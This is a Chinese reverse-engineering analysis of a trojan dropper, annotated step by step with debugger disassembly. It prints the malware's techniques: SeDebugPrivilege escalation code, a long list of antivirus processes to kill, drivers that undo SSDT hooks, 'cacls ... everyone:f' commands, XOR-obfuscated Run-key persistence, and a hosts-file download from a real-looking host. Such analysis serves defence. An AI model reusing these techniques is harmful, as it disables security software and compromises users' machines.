  10006326   .  FF15 08100010 call    dword ptr [<&ADVAPI32.OpenProces>; \OpenProcessToken 
  1000632C   .  F7D8          neg     eax
  1000632E   .  1BC0          sbb     eax, eax
  10006330   .  F7D8          neg     eax
  10006332   .  8845 FC       mov     byte ptr [ebp-4], al
  10006335   .  8B4D FC       mov     ecx, dword ptr [ebp-4]
  10006338   .  81E1 FF000000 and     ecx, 0FF
  1000633E   .  85C9          test    ecx, ecx
  10006340   .  75 08         jnz     short 1000634A
  10006342   .  8A45 FC       mov     al, byte ptr [ebp-4]
  10006345   .  E9 86020000   jmp     100065D0

  100063A6   .  8D55 F0       lea     edx, dword ptr [ebp-10]
  100063A9   .  52            push    edx                              ; /pLocalId
  100063AA   .  68 C4160010   push    100016C4                         ; |Privilege = "SeDebugPrivilege"
  100063AF   .  6A 00         push    0                                ; |SystemName = NULL
  100063B1   .  FF15 0C100010 call    dword ptr [<&ADVAPI32.LookupPriv>; \LookupPrivilegeValueA
  100063B7   .  F7D8          neg     eax
  100063B9   .  1BC0          sbb     eax, eax
  100063BB   .  F7D8          neg     eax
  100063BD   .  8845 FC       mov     byte ptr [ebp-4], al

  1000641C   .  8B45 FC       mov     eax, dword ptr [ebp-4]
  1000641F   .  25 FF000000   and     eax, 0FF
  10006424   .  85C0          test    eax, eax
  10006426   .  75 08         jnz     short 10006430
  10006428   .  8A45 FC       mov     al, byte ptr [ebp-4]
  1000642B   .  E9 A0010000   jmp     100065D0

  1000648C   .  C745 EC 01000>mov     dword ptr [ebp-14], 1
  100064EF   .  C745 F8 02000>mov     dword ptr [ebp-8], 2

  10006552   .  6A 00         push    0                                ; /pRetLen = NULL
  10006554   .  6A 00         push    0                                ; |pPrevState = NULL
  10006556   .  6A 10         push    10                               ; |PrevStateSize = 10 (16.)
  10006558   .  8D4D EC       lea     ecx, dword ptr [ebp-14]          ; |
  1000655B   .  51            push    ecx                              ; |pNewState
  1000655C   .  6A 00         push    0                                ; |DisableAllPrivileges = FALSE
  1000655E   .  8B55 E8       mov     edx, dword ptr [ebp-18]          ; |
  10006561   .  52            push    edx                              ; |hToken
  10006562   .  FF15 10100010 call    dword ptr [<&ADVAPI32.AdjustToke>; \AdjustTokenPrivileges
  10006568   .  F7D8          neg     eax
  1000656A   .  1BC0          sbb     eax, eax
  1000656C   .  F7D8          neg     eax
  1000656E   .  8845 FC       mov     byte ptr [ebp-4], al

  100065CD   .  8A45 FC       mov     al, byte ptr [ebp-4]
  100065D0   >  5F            pop     edi
  100065D1   .  5E            pop     esi
  100065D2   .  5B            pop     ebx
  100065D3   .  8BE5          mov     esp, ebp
  100065D5   .  5D            pop     ebp
  100065D6   .  C3            retn

  提升自身权限的步骤：
  ①获得当前进程令牌环 
  ②查询进程的权限
  ③调整权限 

  整个函数的关键代码为:
  void EnableDebugPriv()
{
  HANDLE hToken;
  OpenProcessToken( OpenProcessToken(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken);

  ......
    //判断是否获得当前进程的令牌

    TOKEN_PRIVILEGES tp; 
  LUID luid; 
  LookupPrivilegeValue(NULL,"SeDebugPrivilege",&luid) ;

  ......
    //判断是否获得进程本地唯一 ID 

  tp.PrivilegeCount = 1; 
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; 
  tp.Privileges[0].Luid = luid; 
  //调整权限 

  AdjustTokenPrivileges(hToken,0,&tp,sizeof(TOKEN_PRIVILEGES),NULL,NULL); 

  ......
    //判断是否调整权限成功

}
  （6）获得当前进程列表，检测系统是否存在瑞星(CCENTER.EXE)、NOD32(erkn.exe 、egui.exe) 、金山(KAVStart.exe 、KwatchSvc.exe)的进程，若检测到，则释放驱动文件替换系统 driver 目录下的 AsyncMac.sys，然后创建服务并启动驱动。接下来企图通过 dos 命令停止以上杀毒软件的服务，查找三个反病毒软件进程，如果发现目标进程，删除相关服务和终止相关进程。释放驱动文件替换系统 driver 目录下的 aec.sys 和 AsyncMac.sys，创建服务并启动驱动。启动完成后，通过 aec.sys 驱动来恢复 SSDT，通过 AsyncMac.sys 驱动来终止杀软进程，修改注册表实现镜像劫持，并删除所有注册表启动项目、删除 aec.sys 和 AsyncMac.sys 两个驱动文件。 

替换驱动程序%system32%\drivers\aec.sys 并加载运行，这个驱动会恢复安全软件的 SSDT HOOK 使其自保护失效。

替换驱动程序%system32%\drivers\AsyncMac.sys 并加载运行，这个驱动用于结束某些无法通过恢复 SSDT HOOK 结束的安全软件进程。

avp、safeboxTray、360Safebox、360tray、antiarp、ekrn、RsAgent、mfeann 、egui 、RavMon 、RavMonD 、RavTask、CCenter、RavStub、RsTray、ScanFrm、Rav、AgentSvr、CCenter、QQDoctor、McProxy 、mcshield、rsnetsvr、naPrdMgr、MpfSrv、MPSVC、MPSVC1、KISSvc、KPfwSvc、kmailmon、KavStart、engineserver、KPFW32、KVSrvXP、ccSetMgr、ccEvtMgr、defwatch、rtvscan、ccapp、vptray、mcupdmgr、mfevtps、mcsysmon、mcmscsvc、mcnasvc、 mcagent、vstskmgr、FrameworkService、mcshell、mcinsupd、bdagent、livesrv、vsserv、xcommsvr、ccSvcHst、SHSTAT、McTray、udaterui、KAVStar 、Uplive  、KWatch  、QQDoctorRtp 、DrUpdate 、rfwsrv、RegGuide、MPSVC2、MPMon
    

   （7）删除自身 killdll.dll
  00402632    68 50460000     push    4650
  00402637    FF15 38104000   call    dword ptr [<&kernel32.Sleep>]    ; kernel32.Sleep
  0040263D    68 04010000     push    104
  00402642    8D8D ECFCFFFF   lea     ecx, dword ptr [ebp-314]
  00402648    51              push    ecx
  00402649    FF15 60104000   call    dword ptr [<&kernel32.GetSystemD>; kernel32.GetSystemDirectoryA
  0040264F    68 54124000     push    00401254                         ; ASCII "\killdll.dll"
  00402654    8D95 ECFCFFFF   lea     edx, dword ptr [ebp-314]
  0040265A    52              push    edx
  0040265B    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  00402661    8D85 ECFCFFFF   lea     eax, dword ptr [ebp-314]
  00402667    50              push    eax
  00402668    FF15 34104000   call    dword ptr [<&kernel32.DeleteFile>; kernel32.DeleteFileA
  （8）释放可执行文件%SystemRoot%\system32\11063046_xeex.exe（随机值）
  00402743    FF15 5C104000   call    dword ptr [<&kernel32.GetTickCou>; kernel32.GetTickCount
  00402749    50              push    eax
  0040274A    8D8D 94F5FFFF   lea     ecx, dword ptr [ebp-A6C]
  00402750    51              push    ecx
  00402751    68 44124000     push    00401244                         ; ASCII "%s%d_xeex.exe"
  00402756    8D95 94F5FFFF   lea     edx, dword ptr [ebp-A6C]
  0040275C    52              push    edx
  0040275D    FF15 A8104000   call    dword ptr [<&USER32.wsprintfA>]  ; USER32.wsprintfA
  00402763    83C4 10         add     esp, 10
  00402766    68 FF000000     push    0FF
  0040276B    8D85 FCFDFFFF   lea     eax, dword ptr [ebp-204]
  00402771    50              push    eax
  00402772    FF15 58104000   call    dword ptr [<&kernel32.GetWindows>; kernel32.GetWindowsDirectoryA
  00402778    68 40124000     push    00401240
  0040277D    8D8D FCFDFFFF   lea     ecx, dword ptr [ebp-204]
  00402783    51              push    ecx
  00402784    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  0040278A    8D95 94F5FFFF   lea     edx, dword ptr [ebp-A6C]
  00402790    52              push    edx
  00402791    8D85 FCFDFFFF   lea     eax, dword ptr [ebp-204]
  00402797    50              push    eax
  00402798    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  0040279E    68 64124000     push    00401264                         ; ASCII "SERVER"
  004027A3    6A 65           push    65
  004027A5    8D8D FCFDFFFF   lea     ecx, dword ptr [ebp-204]
  004027AB    51              push    ecx
  004027AC    E8 5FEDFFFF     call    00401510
  004027B1    68 FF000000     push    0FF
  004027B6    8D95 FCFDFFFF   lea     edx, dword ptr [ebp-204]
  004027BC    52              push    edx
  004027BD    FF15 58104000   call    dword ptr [<&kernel32.GetWindows>; kernel32.GetWindowsDirectoryA
  004027C3    68 40124000     push    00401240
  004027C8    8D85 FCFDFFFF   lea     eax, dword ptr [ebp-204]
  004027CE    50              push    eax
  004027CF    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  004027D5    8D8D 94F5FFFF   lea     ecx, dword ptr [ebp-A6C]
  004027DB    51              push    ecx
  004027DC    8D95 FCFDFFFF   lea     edx, dword ptr [ebp-204]
  004027E2    52              push    edx
  004027E3    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  004027E9    6A 00           push    0
  004027EB    6A 00           push    0
  004027ED    6A 00           push    0
  004027EF    8D85 FCFDFFFF   lea     eax, dword ptr [ebp-204]
  004027F5    50              push    eax
  004027F6    68 38124000     push    00401238                         ; ASCII "open"
  004027FB    6A 00           push    0
  004027FD    FF15 8C104000   call    dword ptr [<&SHELL32.ShellExecut>; SHELL32.ShellExecuteA
  00402803    68 F4010000     push    1F4
  00402808    FF15 38104000   call    dword ptr [<&kernel32.Sleep>]    ; kernel32.Sleep

  GetTickCount()，这个函数返回系统自启动之后经历的毫秒数，获得启动毫秒数往往是为了做一个随机数的种子。

  反汇编 GetTickCount 函数：
  kernel32!GetTickCount:
  7c80932e ba0000fe7f      mov     edx,offset SharedUserData (7ffe0000)
  7c809333 8b02            mov     eax,dword ptr [edx]
  7c809335 f76204          mul     eax,dword ptr [edx+4]
  7c809338 0facd018        shrd    eax,edx,18h
  7c80933c c3              ret

  代码很简单：
  将 KUSE_SHARED_DATA 的第一、二成员相乘后右移 24 位后，返回就是结构。
  KUSE_SHARED_DATA 定义如下：

kd> dt ntdll!_KUSER_SHARED_DATA
   +0x000 TickCountLow     : Uint4B
   +0x004 TickCountMultiplier : Uint4B
   +0x008 InterruptTime    : _KSYSTEM_TIME
   +0x014 SystemTime       : _KSYSTEM_TIME
   +0x020 TimeZoneBias     : _KSYSTEM_TIME
   +0x02c ImageNumberLow   : Uint2B
   +0x02e ImageNumberHigh  : Uint2B
   +0x030 NtSystemRoot     : [260] Uint2B
   +0x238 MaxStackTraceDepth : Uint4B
   +0x23c CryptoExponent   : Uint4B
   +0x240 TimeZoneId       : Uint4B
   +0x244 Reserved2        : [8] Uint4B
   +0x264 NtProductType    : _NT_PRODUCT_TYPE
   +0x268 ProductTypeIsValid : UChar
   +0x26c NtMajorVersion   : Uint4B
   +0x270 NtMinorVersion   : Uint4B
   +0x274 ProcessorFeatures : [64] UChar
   +0x2b4 Reserved1        : Uint4B
   +0x2b8 Reserved3        : Uint4B
   +0x2bc TimeSlip         : Uint4B
   +0x2c0 AlternativeArchitecture : _ALTERNATIVE_ARCHITECTURE_TYPE
   +0x2c8 SystemExpirationDate : _LARGE_INTEGER
   +0x2d0 SuiteMask        : Uint4B
   +0x2d4 KdDebuggerEnabled : UChar
   +0x2d5 NXSupportPolicy  : UChar
   +0x2d8 ActiveConsoleId  : Uint4B
   +0x2dc DismountCount    : Uint4B
   +0x2e0 ComPlusPackage   : Uint4B
   +0x2e4 LastSystemRITEventTickCount : Uint4B
   +0x2e8 NumberOfPhysicalPages : Uint4B
   +0x2ec SafeBootMode     : UChar
   +0x2f0 TraceLogging     : Uint4B
   +0x2f8 TestRetInstruction : Uint8B
   +0x300 SystemCall       : Uint4B
   +0x304 SystemCallReturn : Uint4B
   +0x308 SystemCallPad    : [3] Uint8B
   +0x320 TickCount        : _KSYSTEM_TIME
   +0x320 TickCountQuad    : Uint8B
   +0x330 Cookie           : Uint4B

  其中：TickCountLow 表示机器启动后的滴答数（tick）。TickCountMultiplier 表示每个滴答数的时间间隔：1 毫秒的 2^(-24)。
  所以要取毫秒数时两值相乘后右移 24 位就可以了。

  现在，我们转向分析 11063046_xeex.exe。

  0040092C  |.  68 68274000   push    00402768                         ; /MutexName = "XETTETT......"
  00400931  |.  57            push    edi                              ; |InitialOwner => FALSE
  00400932  |.  57            push    edi                              ; |pSecurity => NULL
  00400933  |.  FF15 3C044000 call    dword ptr [<&KERNEL32.CreateMute>; \CreateMutexA //打开互斥，确保运行程序唯一性
  00400939  |.  FF15 10044000 call    dword ptr [<&KERNEL32.GetLastErr>; [GetLastError
  （9）首先比较自身是不是 userinit.exe，如果是，运行 explorer.exe 进程。接着通过 cacls 将%SystemRoot%\system32\目录和%TEMP%目录的访问权限设置为 everyone 完全控制。
  0040094D  |> \53            push    ebx
  0040094E  |.  56            push    esi
  0040094F  |.  BE 04010000   mov     esi, 104
  00400954  |.  8D85 E4FAFFFF lea     eax, dword ptr [ebp-51C]
  0040095A  |.  56            push    esi                              ; /n => 104 (260.)
  0040095B  |.  57            push    edi                              ; |c
  0040095C  |.  50            push    eax                              ; |s
  0040095D  |.  E8 240D0000   call    <JMP.&MSVCRT.MEMSET>             ; \memset
  00400962  |.  56            push    esi                              ; /n
  00400963  |.  8D85 E8FBFFFF lea     eax, dword ptr [ebp-418]         ; |
  00400969  |.  57            push    edi                              ; |c
  0040096A  |.  50            push    eax                              ; |s
  0040096B  |.  E8 160D0000   call    <JMP.&MSVCRT.MEMSET>             ; \memset
  00400970  |.  83C4 18       add     esp, 18
  00400973  |.  8D85 E8FBFFFF lea     eax, dword ptr [ebp-418]
  00400979  |.  56            push    esi                              ; /BufSize
  0040097A  |.  50            push    eax                              ; |Buffer
  0040097B  |.  FF15 68044000 call    dword ptr [<&KERNEL32.GetSystemD>; \GetSystemDirectoryA

  0012FBA8  43 3A 5C 57 49 4E 44 4F 57 53 5C 73 79 73 74 65  C:\WINDOWS\syste
  0012FBB8  6D 33 32 00                                      m32.

  00400981  |.  8D85 E8FBFFFF lea     eax, dword ptr [ebp-418]
  00400987  |.  68 58274000   push    00402758                         ; /src = "\userinit.exe"
  0040098C  |.  50            push    eax                              ; |dest
  0040098D  |.  E8 3E0D0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat

  0012FBA8  43 3A 5C 57 49 4E 44 4F 57 53 5C 73 79 73 74 65  C:\WINDOWS\syste
  0012FBB8  6D 33 32 5C 75 73 65 72 69 6E 69 74 2E 65 78 65  m32\userinit.exe

  0040099A  |.  56            push    esi                              ; /BufSize
  0040099B  |.  50            push    eax                              ; |PathBuffer
  0040099C  |.  57            push    edi                              ; |hModule
  0040099D  |.  FF15 34044000 call    dword ptr [<&KERNEL32.GetModuleF>; \GetModuleFileNameA

  0012FAA4  43 3A 5C 44 6F 63 75 6D 65 6E 74 73 20 61 6E 64  C:\Documents and
  0012FAB4  20 53 65 74 74 69 6E 67 73 5C 41 64 6D 69 6E 69   Settings\Admini
  0012FAC4  73 74 72 61 74 6F 72 5C D7 C0 C3 E6 5C 65 58 5C  strator\桌面\eX\
  0012FAD4  31 31 30 36 33 30 34 36 5F 78 65 65 78 2E 65 78  11063046_xeex.ex
  0012FAE4  65 00                                            e.

  004009A9  |.  50            push    eax          ; /s2 = "C:\WINDOWS\system32\userinit.exe"
  004009AA  |.  8D85 E4FAFFFF lea     eax, dword ptr [ebp-51C]         ; |
  004009B0  |.  50            push    eax          ; |s1 = "C:\Documents and Settings\Administrator\",D7,"烂 eX\11063046_xeex.exe"
  004009B1  |.  FF15 F4044000 call    dword ptr [<&MSVCRT._stricmp>]   ; \_stricmp //比较自身是不是 userinit.exe  
  比较自身是不是 userinit.exe，如果是的话，则打开运行 explorer.exe 进程。                  

  004009C3  |.  56            push    esi                              ; /n
  004009C4  |.  8D85 F4FEFFFF lea     eax, dword ptr [ebp-10C]         ; |
  004009CA  |.  57            push    edi                              ; |c
  004009CB  |.  50            push    eax                              ; |s
  004009CC  |.  E8 B50C0000   call    <JMP.&MSVCRT.MEMSET>             ; \memset
  004009D1  |.  83C4 0C       add     esp, 0C
  004009D4  |.  8D85 F4FEFFFF lea     eax, dword ptr [ebp-10C]
  004009DA  |.  56            push    esi                              ; /BufSize
  004009DB  |.  50            push    eax                              ; |Buffer
  004009DC  |.  FF15 2C044000 call    dword ptr [<&KERNEL32.GetWindows>; \GetWindowsDirectoryA
  004009E2  |.  8D85 F4FEFFFF lea     eax, dword ptr [ebp-10C]
  004009E8  |.  68 48274000   push    00402748                         ; /src = "\explorer.exe"
  004009ED  |.  50            push    eax                              ; |dest
  004009EE  |.  E8 DD0C0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  004009F3  |.  59            pop     ecx
  004009F4  |.  8D85 F4FEFFFF lea     eax, dword ptr [ebp-10C]
  004009FA  |.  59            pop     ecx
  004009FB  |.  6A 05         push    5
  004009FD  |.  50            push    eax
  004009FE  |.  FFD3          call    ebx
  00400A00  |.  68 E8030000   push    3E8                              ; /Timeout = 1000. ms
  00400A05  |.  FF15 28044000 call    dword ptr [<&KERNEL32.Sleep>]    ; \Sleep

  然后通过 cacls 将%SystemRoot%\system32\目录和%TEMP%目录的访问权限设置为 everyone 完全控制
  00400A0B  |> \8D85 F0FDFFFF lea     eax, dword ptr [ebp-210]
  00400A11  |.  56            push    esi                              ; /BufSize
  00400A12  |.  50            push    eax                              ; |Buffer
  00400A13  |.  FF15 68044000 call    dword ptr [<&KERNEL32.GetSystemD>; \GetSystemDirectoryA
  00400A19  |.  8D85 F0FDFFFF lea     eax, dword ptr [ebp-210]
  00400A1F  |.  50            push    eax                              ; /<%s>
  00400A20  |.  8D85 ECFCFFFF lea     eax, dword ptr [ebp-314]         ; |
  00400A26  |.  68 24274000   push    00402724                         ; |format = "cmd /c cacls %s /e /p everyone:f"
  00400A2B  |.  50            push    eax                              ; |s
  00400A2C  |.  FF15 F0044000 call    dword ptr [<&MSVCRT.sprintf>]    ; \sprintf
  00400A32  |.  83C4 0C       add     esp, 0C
  00400A35  |.  8D85 ECFCFFFF lea     eax, dword ptr [ebp-314]
  00400A3B  |.  57            push    edi
  00400A3C  |.  50            push    eax
  00400A3D  |.  FFD3          call    ebx
  00400A3F  |.  8D85 F0FDFFFF lea     eax, dword ptr [ebp-210]
  00400A45  |.  50            push    eax                              ; /Buffer
  00400A46  |.  56            push    esi                              ; |BufSize
  00400A47  |.  FF15 24044000 call    dword ptr [<&KERNEL32.GetTempPat>; \GetTempPathA
  00400A4D  |.  8D85 F0FDFFFF lea     eax, dword ptr [ebp-210]
  00400A53  |.  50            push    eax                              ; /<%s>
  00400A54  |.  8D85 ECFCFFFF lea     eax, dword ptr [ebp-314]         ; |
  00400A5A  |.  68 00274000   push    00402700                         ; |format = "cmd /c cacls ""%s"" /e /p everyone:f"
  00400A5F  |.  50            push    eax                              ; |s
  00400A60  |.  FF15 F0044000 call    dword ptr [<&MSVCRT.sprintf>]    ; \sprintf
  00400A66  |.  83C4 0C       add     esp, 0C
  00400A69  |.  8D85 ECFCFFFF lea     eax, dword ptr [ebp-314]
  00400A6F  |.  57            push    edi
  00400A70  |.  50            push    eax
  00400A71  |.  FFD3          call    ebx
  （10）获得注册表操作相关 API 函数虚拟地址,添加注册表自启动项
  00400A73  |.  E8 15FDFFFF   call    0040078D  //提权（前面我们已经分析过了）

  00400A78  |.  E8 43030000   call    00400DC0  

  00400DCF  |.  BE 58284000   mov     esi, 00402858                    ;  ASCII "QMDVUCPG^^Okapmqmdv^^Uklfmuq^^AwppglvTgpqkml^^Pwl"

  可能是加密的字符串，该字符串终究会解密，后面我们分析。

  00400DEF  |.  C645 F0 73    mov     byte ptr [ebp-10], 73                        ; |
  00400DF3  |.  66:A5         movs    word ptr es:[edi], word ptr [esi]            ; |
  00400DF5  |.  C645 F1 63    mov     byte ptr [ebp-F], 63                         ; |
  00400DF9  |.  C645 F2 76    mov     byte ptr [ebp-E], 76                         ; |
  00400DFD  |.  C645 F3 68    mov     byte ptr [ebp-D], 68                         ; |
  00400E01  |.  C645 F4 6F    mov     byte ptr [ebp-C], 6F                         ; |
  00400E05  |.  C645 F5 73    mov     byte ptr [ebp-B], 73                         ; |
  00400E09  |.  C645 F6 74    mov     byte ptr [ebp-A], 74                         ; |
  00400E0D  |.  C645 F7 2E    mov     byte ptr [ebp-9], 2E                         ; |
  00400E11  |.  C645 F8 65    mov     byte ptr [ebp-8], 65                         ; |
  00400E15  |.  C645 F9 78    mov     byte ptr [ebp-7], 78                         ; |
  00400E19  |.  C645 FA 65    mov     byte ptr [ebp-6], 65                         ; |

  0012FA80  73 63 76 68 6F 73 74 2E 65 78 65 00              scvhost.exe.

  动态加载动态链接库 advapi32.dll，获取 RegCloseKey()、RegCreateKeyA()、RegSetValueExA()虚拟地址。

  00400EC8  |.  50            push    eax                                          ; /s = "QMDVUCPG^^Okapmqmdv^^Uklfmuq^^AwppglvTgpqkml^^Pwl"
  00400EC9  |.  E8 BE070000   call    <JMP.&MSVCRT.STRLEN>                         ; \strlen
  00400ECE  |.  59            pop     ecx
  00400ECF  |.  50            push    eax
  00400ED0  |.  8D85 6CFFFFFF lea     eax, dword ptr [ebp-94]
  00400ED6  |.  50            push    eax
  00400ED7  |.  E8 75F8FFFF   call    00400751  //字符串解密函数
  00400EDC  |.  83C4 0C       add     esp, 0C

  00400751  /$  55            push    ebp
  00400752  |.  8BEC          mov     ebp, esp
  00400754  |.  56            push    esi
  00400755  |.  57            push    edi
  00400756  |.  8B7D 08       mov     edi, dword ptr [ebp+8]
  00400759  |.  897D 08       mov     dword ptr [ebp+8], edi
  0040075C  |.  8B75 08       mov     esi, dword ptr [ebp+8]
  0040075F  |.  B8 02000000   mov     eax, 2
  00400764  |.  8B4D 0C       mov     ecx, dword ptr [ebp+C]
  00400767  |>  3106          /xor     dword ptr [esi], eax
  00400769  |.  46            |inc     esi
  0040076A  |.^ E2 FB         \loopd   short 00400767
  0040076C  |.  57            push    edi                                          ; /s = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
  0040076D  |.  E8 1A0F0000   call    <JMP.&MSVCRT.STRLEN>                         ; \strlen

  0012F9FC  53 4F 46 54 57 41 52 45 5C 5C 4D 69 63 72 6F 73  SOFTWARE\\Micros
  0012FA0C  6F 66 74 5C 5C 57 69 6E 64 6F 77 73 5C 5C 43 75  oft\\Windows\\Cu
  0012FA1C  72 72 65 6E 74 56 65 72 73 69 6F 6E 5C 5C 52 75  rrentVersion\\Ru
  0012FA2C  6E 00                                            n.

  猜想：网上现在流行一种免杀技术“字符串的免杀方法”，或许这里就采用这种方法。

  添加注册表自启动项（C:\WINDOWS\system32\scvhost.exe），关于 scvhost.exe，我们后面分析。

  00400F16  |.  8D45 FC       lea     eax, dword ptr [ebp-4]
  00400F19  |.  50            push    eax
  00400F1A  |.  8D85 64FDFFFF lea     eax, dword ptr [ebp-29C]
  00400F20  |.  50            push    eax
  00400F21  |.  68 02000080   push    80000002
  00400F26  |.  FF15 D0284000 call    dword ptr [4028D0]               ;  advapi32.RegCreateKeyA
  00400F2C  |.  85C0          test    eax, eax
  00400F2E  |.  75 28         jnz     short 00400F58
  00400F30  |.  8D85 68FEFFFF lea     eax, dword ptr [ebp-198]
  00400F36  |.  50            push    eax                              ; /s
  00400F37  |.  E8 50070000   call    <JMP.&MSVCRT.STRLEN>             ; \strlen
  00400F3C  |.  59            pop     ecx
  00400F3D  |.  40            inc     eax
  00400F3E  |.  50            push    eax
  00400F3F  |.  8D85 68FEFFFF lea     eax, dword ptr [ebp-198]
  00400F45  |.  50            push    eax
  00400F46  |.  6A 01         push    1
  00400F48  |.  6A 00         push    0
  00400F4A  |.  68 10284000   push    00402810                         ;  ASCII "RsTray"
  00400F4F  |.  FF75 FC       push    dword ptr [ebp-4]
  00400F52  |.  FF15 D4284000 call    dword ptr [4028D4]               ;  advapi32.RegSetValueExA
  00400F58  |>  60            pushad
  00400F59  |.  90            nop
  00400F5A  |.  90            nop
  00400F5B  |.  90            nop
  00400F5C  |.  61            popad
  00400F5D  |.  FF75 FC       push    dword ptr [ebp-4]
  00400F60  |.  FF15 D8284000 call    dword ptr [4028D8]               ;  advapi32.RegCloseKey
   
（11）创建新线程，下载大量木马到本机统计本地感染机器的网卡地址、系统版本和时间，将这些信息发送到黑客指定的地址。
  00400A86  |.  50            push    eax                              ; /pThreadId
  00400A87  |.  57            push    edi                              ; |CreationFlags
  00400A88  |.  57            push    edi                              ; |pThreadParm
  00400A89  |.  68 C00C4000   push    00400CC0                         ; |ThreadFunction = 11063046.00400CC0
  00400A8E  |.  57            push    edi                              ; |StackSize
  00400A8F  |.  57            push    edi                              ; |pSecurity
  00400A90  |.  FFD6          call    esi                              ; \CreateThread
  00400A92  |.  8B1D 1C044000 mov     ebx, dword ptr [<&KERNEL32.WaitF>;  kernel32.WaitForSingleObject
  00400A98  |.  68 E8030000   push    3E8                              ; /Timeout = 1000. ms
  00400A9D  |.  50            push    eax                              ; |hObject
  00400A9E  |.  FFD3          call    ebx                              ; \WaitForSingleObject

  00400A89  |.  68 C00C4000   push    00400CC0                         ; |ThreadFunction = 11063046.00400CC0

  在这行上，点击右键，“跟随立即数”，我们来到线程函数入口点，在入口点处 F2 下个断点（最好是取消所有断点之后再下断），然后 F9 运行。

  00400CC0  /.  55            push    ebp
  00400CC1  |.  8BEC          mov     ebp, esp
  00400CC3  |.  81EC 14020000 sub     esp, 214
  00400CC9  |.  53            push    ebx
  00400CCA  |.  56            push    esi
  00400CCB  |.  BE FF000000   mov     esi, 0FF
  00400CD0  |.  33DB          xor     ebx, ebx
  00400CD2  |.  56            push    esi                              ; /n => FF (255.)
  00400CD3  |.  8D85 ECFDFFFF lea     eax, dword ptr [ebp-214]         ; |
  00400CD9  |.  53            push    ebx                              ; |c => 00
  00400CDA  |.  50            push    eax                              ; |s
  00400CDB  |.  C645 EC 5C    mov     byte ptr [ebp-14], 5C            ; |
  00400CDF  |.  C645 ED 64    mov     byte ptr [ebp-13], 64            ; |
  00400CE3  |.  C645 EE 72    mov     byte ptr [ebp-12], 72            ; |
  00400CE7  |.  C645 EF 69    mov     byte ptr [ebp-11], 69            ; |
  00400CEB  |.  C645 F0 76    mov     byte ptr [ebp-10], 76            ; |
  00400CEF  |.  C645 F1 65    mov     byte ptr [ebp-F], 65             ; |
  00400CF3  |.  C645 F2 72    mov     byte ptr [ebp-E], 72             ; |
  00400CF7  |.  C645 F3 73    mov     byte ptr [ebp-D], 73             ; |
  00400CFB  |.  C645 F4 5C    mov     byte ptr [ebp-C], 5C             ; |
  00400CFF  |.  C645 F5 65    mov     byte ptr [ebp-B], 65             ; |
  00400D03  |.  C645 F6 74    mov     byte ptr [ebp-A], 74             ; |
  00400D07  |.  C645 F7 63    mov     byte ptr [ebp-9], 63             ; |
  00400D0B  |.  C645 F8 5C    mov     byte ptr [ebp-8], 5C             ; |
  00400D0F  |.  C645 F9 68    mov     byte ptr [ebp-7], 68             ; |
  00400D13  |.  C645 FA 6F    mov     byte ptr [ebp-6], 6F             ; |
  00400D17  |.  C645 FB 73    mov     byte ptr [ebp-5], 73             ; |
  00400D1B  |.  C645 FC 74    mov     byte ptr [ebp-4], 74             ; |
  00400D1F  |.  C645 FD 73    mov     byte ptr [ebp-3], 73             ; |
  00400D23  |.  885D FE       mov     byte ptr [ebp-2], bl             ; |

  00A0FFA2  72 69 76 65 72 73 5C 65 74 63 5C 68 6F 73 74 73  rivers\etc\hosts
  00A0FFB2  00                                               .

  00400D53  |.  68 04284000   push    00402804                         ; /String2 = "http://host"
  00400D58  |.  50            push    eax                              ; |String1
  00400D59  |.  FF15 44044000 call    dword ptr [<&KERNEL32.lstrcmpiA>>; \lstrcmpiA
  00400D5F  |.  85C0          test    eax, eax
  00400D61  |.  74 57         je      short 00400DBA
  00400D63  |.  8D85 ECFDFFFF lea     eax, dword ptr [ebp-214]
  00400D69  |.  56            push    esi                              ; /BufSize
  00400D6A  |.  50            push    eax                              ; |Buffer
  00400D6B  |.  FF15 68044000 call    dword ptr [<&KERNEL32.GetSystemD>; \GetSystemDirectoryA
  00400D71  |.  8D45 EC       lea     eax, dword ptr [ebp-14]
  00400D74  |.  50            push    eax                              ; /src
  00400D75  |.  8D85 ECFDFFFF lea     eax, dword ptr [ebp-214]         ; |
  00400D7B  |.  50            push    eax                              ; |dest
  00400D7C  |.  E8 4F090000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  00400D81  |.  59            pop     ecx                              ;  00A0FDA0

  00400D69  |.  56            push    esi                                         ; /BufSize
  00400D6A  |.  50            push    eax                                         ; |Buffer
  00400D6B  |.  FF15 68044000 call    dword ptr [<&KERNEL32.GetSystemDirectoryA>] ; \GetSystemDirectoryA
  00400D71  |.  8D45 EC       lea     eax, dword ptr [ebp-14]
  00400D74  |.  50            push    eax                                         ; /src
  00400D75  |.  8D85 ECFDFFFF lea     eax, dword ptr [ebp-214]                    ; |
  00400D7B  |.  50            push    eax                                         ; |dest
  00400D7C  |.  E8 4F090000   call    <JMP.&MSVCRT.STRCAT>                        ; \strcat
  堆栈 [00A0FD90]=00A0FDA0 (00A0FDA0), ASCII "C:\WINDOWS\system32\drivers\etc\hosts"
  ecx=00A0FFB4

  清除 IE 中有关 http://wxg.3ehs.com/host.txt 的缓存。

  00400D89  |.  50            push    eax
  00400D8A  |.  FF15 18054000 call    dword ptr [<&WININET.DeleteUrlCacheEntry>]  ;  wininet.DeleteUrlCacheEntryA

   DeleteUrlCacheEntry("http://wxg.3ehs.com/host.txt");

  00400D90  |.  53            push    ebx
  00400D91  |.  53            push    ebx
  00400D92  |.  8D85 ECFDFFFF lea     eax, dword ptr [ebp-214]
  00400D98  |.  68 04010000   push    104
  00400D9D  |.  50            push    eax
  00400D9E  |.  8D85 ECFEFFFF lea     eax, dword ptr [ebp-114]
  00400DA4  |.  50            push    eax
  00400DA5  |.  53            push    ebx
  00400DA6  |.  E8 C3080000   call    <JMP.&URLMON.URLDOWNLOADTOCACHEFILEA>

  00A0FD80   00000000
